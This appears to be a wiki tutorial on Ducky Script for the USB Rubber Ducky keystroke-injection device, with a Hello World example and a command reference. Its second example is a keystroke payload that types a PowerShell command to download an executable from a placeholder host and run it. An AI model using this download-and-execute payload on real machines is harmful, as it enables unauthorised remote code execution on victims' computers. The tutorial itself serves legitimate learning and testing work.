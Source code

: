 = Introduction =
Since first time Ducky users are unfamiliar with Ducky Script, below is a brief summary (with examples) on how to code in Ducky Script.

= Example 1 - Hello World =
The Ducky fires the payload immediately, so you need an initial delay for the OS to recognize and allow the Ducky to proceed as a keyboard, in this example we use a delay of 3secs (3000msecs) for the Windows OS (other OS's may be quicker).

The steps of this example can be broken down into:
* Initial Delay for the OS
* GUI r triggers the run-box
* Small delay to wait for the run-box to open
* Ducky types notepad ENTER to load notepad
* Small delay to wait for notepad to open
* Ducky then types an arbitrary string into notepad

 DELAY 3000
 GUI r
 DELAY 200
 STRING notepad
 ENTER
 DELAY 200
 STRING Hello World!!!
 ENTER
= Example 2 - Download & Execute =
An example of using Powershell to download a file from the web and then execute it.
 DELAY 3000
 GUI r
 DELAY 100 
 STRING powershell (new-object System.Net.WebClient).DownloadFile('http://example.com/bob.old','%TEMP%\bob.exe');
 DELAY 100
 STRING Start-Process "%TEMP%\bob.exe"
 ENTER
= Other Examples =
The community is storing generated payloads on the following wiki-page:
* [[Payloads]]

=Command Breakdown=
* DELAY ''x'' - Delay in milli-secs
* STRING ''xyz'' - types following characters
* GUI - Windows Menu Key
* GUI r - Windows Run box
* COMMAND - OSX Command Key
* UP | UPARROW - Up Key
* DOWN | DOWNARROW - Down Key
* LEFT | LEFTARROW - Left Key
* RIGHT | RIGHTARROW - Right Key
* CAPS |CAPSLOCK - Capslock Key
* ENTER - Return/Enter key
* SPACE - Spacebar
* REPEAT ''x'' - Repeat previous command X times.
You can even use some (but not all) two or three key-combinations:
* SHIFT-ENTER
* CTRL-ALT-DEL
* ALT-F4